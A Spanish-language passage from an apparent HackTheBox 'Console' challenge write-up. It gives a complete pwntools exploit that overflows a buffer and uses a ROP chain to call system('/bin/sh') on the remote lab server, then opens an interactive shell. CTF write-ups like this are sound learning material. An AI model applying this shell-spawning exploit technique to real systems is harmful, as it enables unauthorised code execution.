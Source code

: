 Para completar el desafío, sólo debemos adaptar el `exploit` para que se conecte al servidor de HackTheBox con la función `remote`, en lugar de `process`:

```python
#!/usr/bin/python3

from pwn import remote, p64

if __name__ == '__main__':
    p = remote('159.65.26.210', 31426)

    system_addr = 0x401381 # 0x401381 e8bafcffff call sym.imp.system 
    POP_RDI = 0x401473 # 0x0000000000401473 : pop rdi ; ret
    name_addr = 0x4040b0 

    offset = 24
    junk = b'\x41' * offset

    payload = junk 
    payload += p64(POP_RDI) 
    payload += p64(name_addr) 
    payload += p64(system_addr) 

    p.sendlineafter(b'>> ', b'hof')
    p.sendlineafter(b'Enter your name: ', b'/bin/sh\0')    
    p.sendlineafter(b'>> ', b'flag')
    p.sendlineafter(b'Enter flag: ', payload)

    p.recv()
    p.interactive()
```

Y ya con esto, el desafío está `pwned`:

![Untitled](/assets/img/htb/pwn/HTB-Console/Untitled%2012.png)